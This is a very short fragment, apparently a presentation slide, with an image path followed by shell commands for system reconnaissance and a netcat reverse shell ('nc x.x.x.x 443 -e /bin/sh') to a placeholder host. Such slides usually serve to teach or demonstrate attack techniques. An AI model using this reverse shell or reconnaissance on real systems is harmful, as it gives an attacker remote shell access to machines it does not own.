

$ whoami ; id ; uname -r ; cat /etc/*-release
$ nc x.x.x.x 443 -e /bin/sh
# BACKGROUND